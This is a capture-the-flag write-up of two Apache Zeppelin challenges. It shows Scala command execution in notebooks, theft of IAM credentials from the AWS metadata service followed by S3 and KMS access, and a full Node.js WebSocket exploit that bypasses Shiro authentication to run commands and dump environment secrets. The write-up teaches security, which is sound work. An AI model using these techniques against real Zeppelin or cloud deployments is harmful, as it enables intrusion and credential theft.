## LON0x24 Zeppelin Writeup

These challenges introduced a data science notebook tool, [Apache Zeppelin](https://zeppelin.apache.org/), demonstrating how easy it is to exploit if it isn't locked down properly. Overall, this was a fantastic series of challenges that taught us some tricks that are definitely applicable in the real world!

#### Zeppelin (500pts)
```
http://35.177.74.111:44024/
Need to do some data science from home so I opened my notebook server to the world. There are no flags on the machine, so why not?
The container has no added vulnerability.
Enjoy the RCEaaS.
```
I'd never used Apache Zeppelin before, but it was soon obvious from browsing the interface with the default 'anonymous' access that it's basically a tool to perform remote code execution and share the results. It's easy to find amusing [bug reports](https://issues.apache.org/jira/browse/ZEPPELIN-4287) and [tweets](https://twitter.com/j_kaluzny/status/870523090773487616?lang=en) from people who don't seem to realise that running arbitrary code on the platform is its purpose!

![](images/1.png)

When creating a new note on this Zeppelin instance, the selected interpreter was Spark, and there was no option to change it. Googling 'spark interpreter' shows it provides a Scala environment. So our first idea was to stick a Scala reverse shell in there. [Reverse shell cheatsheets](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) didn't have a Scala section, but looking up [how to run system commands in Scala](https://alvinalexander.com/scala/scala-execute-exec-external-system-commands-in-scala), there's a handy but obscure syntax for that&mdash;like everything in Scala:
```scala
import sys.process._
val result = "ls -al" !
```
Where `result` will contain the exit code of the command. More usefully the following will print the output of the command:
```scala
import sys.process._
val result = "ls -al" !!
println(result)
```

Trying `hostname` indicated that the application was in fact running inside a Docker container; there was a lack of useful tools like netcat or telnet installed to grab an easy reverse shell. The challenge creator said at one point that it was hosted on AWS, which we could figure out for ourselves by checking the box's IP was in the eu-west-2 range in AWS [ip-ranges API](https://ip-ranges.amazonaws.com/ip-ranges.json).

![](images/2.png)

Our next step was to query the [AWS instance metadata service](https://www.emergingdefense.com/blog/2019/1/16/abusing-aws-metadata-service) for IAM credentials:

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials
s3-read
...
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/s3-read
...
{"Code" : "Success", ... "AccessKeyId" : "********************", "SecretAccessKey" : "****************************************" ... }  
```

Note that a similar technique was used in the [Capital One Hack](https://www.wired.com/story/capital-one-paige-thompson-case-hacking-spree/), although that involved exploiting an SSRF rather than an RCE. [This website](https://application.security/) has a really cool interactive demo.

With these credentials we could now use the [AWS CLI](https://aws.amazon.com/cli/) to start poking around the S3 account:

```bash
lt@debian:~$ export AWS_ACCESS_KEY_ID='********************'
lt@debian:~$ export AWS_SECRET_ACCESS_KEY='****************************************'
lt@debian:~$ aws s3 ls
2019-10-23 00:14:33 bc-ctf
lt@debian:~$ aws s3 ls s3://bc-ctf
                           PRE zeppelin-ctf-flag-here/
2019-10-25 02:23:04      21410 ctf.zip
2019-10-25 02:23:05       3825 hangul-flag.enc
2019-10-25 02:23:08       1323 power.html
2019-10-25 02:23:06        204 small.enc
2019-10-25 02:23:06       1537 wasm.zip
lt@debian:~$ aws s3 cp s3://bc-ctf/ . --recursive
download: s3://bc-ctf/zeppelin-ctf-flag-here/flag-ciphertext.enc to ./flag-ciphertext.enc
download: s3://bc-ctf/zeppelin-ctf-flag-here/grant.txt to ./grant.txt
...
```

`grant.txt` was a JSON file containing a `GrantId` and a `GrantToken`. After some googling around, we found [documentation on AWS KMS](https://docs.aws.amazon.com/kms/latest/developerguide/concepts.html#grant_token) about how this token was supposed to be used to decrypt the ciphertext:

```bash
lt@debian:~$ export GRANT_TOKEN='AQpAM2IyNGRmYjJjMmRjOGY2YTgzZTY3ZGM2YzExNWQxZWYzYjJhMzQ2M2U0NzJkMDRjMTc5YTVmY2Y3NjkwZWZjMSKKAgEBAgB4OyTfssLcj2qD5n3GwRXR7zsqNGPkctBMF5pfz3aQ78EAAADhMIHeBgkqhkiG9w0BBwaggdAwgc0CAQAwgccGCSqGSIb3DQEHATAeBglghkgBZQMEAS4wEQQMn82tVkFWFI5tZBueAgEQgIGZoiJYLUf8DOjlILb-YMabd_yPvgK1_Kp0_87yh9Ii0BLOJ_5DVvLXzhzcH3f4j8Ski12qkpHrosiGGrv4jNgrlfYoUkSlIvjc7CBHoyGTLO0GaZzWyVwA8RQtV1VGO03zGnW4zIg1qWoDXNsluJnS4VRkaWTAmmDvTrICQf3IwFA-xDPuvgppmHpI8wfLorjGz0vkVYJ_MrgHKiAiKZwV6oPWgVVD1VR6bQpdi12QxST4F94mzyBXKR5a2Q'
lt@debian:~$ aws kms decrypt --ciphertext-blob fileb://flag-ciphertext.enc --grant-tokens "$GRANT_TOKEN" --region eu-west-2 --output text --query Plaintext | base64 -d
An error occurred (AccessDeniedException) when calling the Decrypt operation: The ciphertext refers to a customer master key that does not exist, does not exist in this region, or you are not allowed to access.
```

However, we kept getting this error and couldn't work out why. Chatting to the challenge organiser, it turned out that earlier we had accessed a different set of S3 credentials than we were supposed to. Indeed, we were able to use our current credentials to grab `ctf.zip` from the S3 bucket, which contained flags for all challenges! This was promptly fixed by the organiser who firewalled off 169.254.169.254 on the EC2 instances.

The intended solution was to look at the environment variables on the Zeppelin container and find AWS creds there. These creds could then be used with the above command to give the flag:

```bash
lt@debian:~$ aws kms decrypt --ciphertext-blob fileb://flag-ciphertext.enc --grant-tokens "$GRANT_TOKEN" --region eu-west-2 --output text --query Plaintext | base64 -d
flag{beware_expl0ding_h0rse}
```

---
#### Shiro's Hindenburg (6000pts)

```
Make sure you've played around with "Zeppelin" before incrementing the port number and playing with http://35.177.74.111:44025
The only change is that I turned on Shiro-authentication and set non-default passwords, so no more unauthenticated RCE, right?
This is a problem commonly seen on Zeppelin instances deployed in the wild. This time the flag is on the machine.
```

This challenge was worth so many points that if you solved it you would instantly win the CTF, so we assumed it would be difficult, and only attempted it the weekend after.

![](images/3.png)

Enumerating this Zeppelin instance, we were unable to access anything from the homepage, and trying any of the APIs like `/api/notebook` would just redirect us to `/api/login` with a `METHOD_NOT_ALLOWED` status.

Looking at the sample [Shiro configuration file](https://github.com/apache/zeppelin/blob/branch-0.8/conf/shiro.ini.template), it turned out that `/api/version` was an unauthenticated route. We visited that to learn that the webserver was running Zeppelin version 0.8.0, a reasonably old version which we suspected had a login bypass vulnerability. However, after doing some research, we couldn't find any such vulnerability, apart from potentially a class of ysoserial-style [deserialisation exploits](https://issues.apache.org/jira/browse/SHIRO-550) which all seemed to be fixed.

We downloaded Zeppelin 0.8.0, followed the [offical guide for setting up Shiro authentication](https://zeppelin.apache.org/docs/0.6.2/security/shiroauthentication.html), and played around a bit. After carefully reading through the authentication controller, we couldn't find any obvious issues and it seemed that Shiro was doing a fine job of securing the important endpoints.

Our next suspicion was that was some sort of deliberate misconfiguration. Reading the official guide again, what if the challenge creator had setup Shiro properly, but forgotten to "Secure the Websocket channel"? It turns out that Shiro only authenticates the routes, not the WebSockets. And Zeppelin is a modern app where after the initial page load, most further communication is done with WebSockets.

Also, to recap: Zeppelin by default allows anonymous access, and anonymous access essentially gives full remote code execution&mdash;no login required!

To test this theory, we opened the 'Sources' tab of the Chrome Developer Tools, and patched part of the JavaScript. We could see that our browser was periodically sending `PING` messages, so we found the code that was doing that: 

```javascript
o=setInterval(function(){i.sendNewEvent({op:"PING"})},1e4)}),i.sendNewEvent=function(t){return void 0!==e.ticket?(t.principal=e.ticket.principal,t.ticket=e.ticket.ticket,t.roles=e.ticket.roles):(t.principal="",t.ticket="",t.roles="")
```

and replaced it with:

```javascript
o=setInterval(function(){i.sendNewEvent({"op":"LIST_NOTES","principal":"anonymous","ticket":"anonymous","roles":"[]"})},1e4)}),i.sendNewEvent=function(t){return void 0!==e.ticket?(t.principal=e.ticket.principal,t.ticket=e.ticket.ticket,t.roles=e.ticket.roles):(t.principal="anonymous",t.ticket="anonymous",t.roles="")
```

We then followed the steps [described here](https://stackoverflow.com/a/48843321) to make our patch persist. After refresh, bingo! The server responded with a list of notes.

What followed was a lot of wasted time trying to modify the JavaScript and figure out the correct sequence of WebSocket messages that would make `RUN_PARAGRAPH` actually return a result. This was fairly painful, and kept giving an error about interpreter binding.

![](images/4.png)

In the end, it turned out that just using the popular [ws server for Node.js](https://github.com/websockets/ws) was a much better solution. Final exploit:

```javascript
const WebSocket = require('ws');

const ws = new WebSocket('ws://35.177.74.111:44025/ws');

const list = {"op":"LIST_NOTES","principal":"anonymous","ticket":"anonymous","roles":"[]"}
const get = {"op":"GET_NOTE","data":{"id":"2BWJFTXKJ"},"principal":"anonymous","ticket":"anonymous","roles":"[]"}
const run = {"op":"RUN_PARAGRAPH","data":{"id":"20150424-154226_261270952","title":"Hello R","paragraph":"import sys.process._\nval result = \"env\" !!\nprintln(result)","config":{"colWidth":12,"editorMode":"ace/mode/r","enabled":true,"title":true,"results":[{"graph":{"mode":"table","height":84.64583587646484,"optionOpen":false,"keys":[],"values":[],"groups":[],"scatter":{}}}],"editorSetting":{"language":"r","editOnDblClick":false},"fontSize":9},"params":{}},"principal":"anonymous","ticket":"anonymous","roles":"[]"}

ws.on('open', function open() {
  ws.send(JSON.stringify(list));
  ws.send(JSON.stringify(get));
  ws.send(JSON.stringify(run));
});

ws.on('message', function incoming(data) {
  console.log(data);
});
```
Gives a whole bunch of output which contains:
```
SHIRO_FLAG=flag{syllabifying_oblate_misrepresentations}
```
